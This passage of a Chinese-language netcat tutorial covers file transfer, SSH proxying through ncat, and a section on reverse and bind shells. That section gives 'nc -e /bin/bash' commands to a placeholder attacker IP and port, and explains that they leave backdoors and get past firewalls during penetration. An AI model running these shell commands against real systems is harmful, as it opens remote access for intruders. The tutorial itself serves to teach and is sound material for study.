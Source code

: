 ```bash
# 提供文件的机器，这样表示建立连接后把 temp.txt 的内容发送过去
nc -lvvp 1665 < temp.txt
# 需要获取文件的机器，这样与目标建立连接后，把它发过来的内容重定向到一个文件中
nc -nv <IP> <PORT> > out.txt
```

方向换一下也是同理：

```bash
# 接收文件的机器
nc -lvvp 1665 > out.txt
# 发送文件的机器
nc -nv <IP> <PORT> < temp.txt
```

### 反弹 Shell

这个一般用于渗透时留后门，主要是利用 `nc` 的 `-c` 和 `-e` 。

```bash
# 让客户端发送自己的 shell 给 <IP> <PORT>
# 客户端，这样 <IP> <PORT> 被监听时就会拿到客户端的 shell
# 后续 <IP> <PORT> 要再转发还是什么都可以自由操作
nc -nv <IP> <PORT> -e /bin/bash
-or
nc -nv <IP> <PORT> -c bash
```

```bash
# 客户端开启一个端口，在这个端口上直接暴露自己的 shell
nc -lp 6666 -e /bin/bash
```

如果用于渗透，受害者一般是内网环境，所以都是用的第一种，主动发送 shell 给攻击者。第二种需要攻击者能访问到受害者的 ip:port 才行。加上一般都有防火墙阻拦，受害者的入站流量可能会被防火墙拦截，但是防火墙一般不会对出站流量有限制，这也是第一种方式的用的比较多的原因。

如果攻击者没有能让受害者访问到的 IP，一般通过内网穿透即可解决。

### SSH 代理

```yaml
# SSH配置文件 - ~/.ssh/config

# 针对github.com的特定设置
Host github.com
  # 使用ncat作为代理命令来处理连接
  ProxyCommand ncat --proxy 127.0.0.1:10808 --proxy-type [Your proxy type] %h %p
```

这样对 github 仓库进行 `git pull` `git push` 这样的操作都会走代理。

  - --proxy：指定代理服务器的地址。
- --proxy-type：指定代理的类型，如 http 或 socks5。

# nmap
